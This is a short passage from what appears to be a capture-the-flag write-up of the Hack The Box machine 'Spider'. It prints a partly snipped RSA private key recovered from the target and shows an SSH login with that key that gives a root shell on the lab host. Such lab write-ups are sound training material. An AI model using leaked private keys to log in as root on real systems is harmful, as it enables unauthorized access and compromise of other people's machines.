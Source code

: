     -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAl/dn2XpJQuIw49CVNdAgdeO5WZ47tZDYZ+7tXD8Q5tfqmyxq
    gsgQskHffuzjq8v/q4aBfm6lQSn47G8foq0gQ1DvuZkWFAATvTjliXuE7gLcItPt
    iFtbg7RQV/xaTwAmdRfRLb7x63TG6mZDRkvFvGfihWqAnkuJNqoVJclgIXLuwUvk
    4d3/Vo/MdEUb02ha7Rw9oHSYKR4pIgv4mDwxGGL+fwo6hFNCZ+YK96wMlJc3vo5Z
    EgkdKXy3RnLKvtxjpIlfmAZGu0T+RX1GlmoPDqoDWRbWU+wdbES35vqxH0uM5WUh
    vPt5ZDGiKID4Tft57udHxPiSD6YBhLT5ooHfFQIDAQABAoIBAFxB9Acg6Vc0kO/N
    krhfyUUo4j7ZBHDfJbI7aFinZPBwRtq75VHOeexud2vMDxAeQfJ1Lyp9q8/a1mdb
    ...[snip]...
    

It works to get a shell as root:

    
    
    oxdf@parrot$ ssh -i ~/keys/spider-root root@10.10.10.243
    Last login: Mon May 17 16:35:28 2021 from 10.10.14.7
    root@spider:~# 
    

[](/2021/10/23/htb-spider.html)

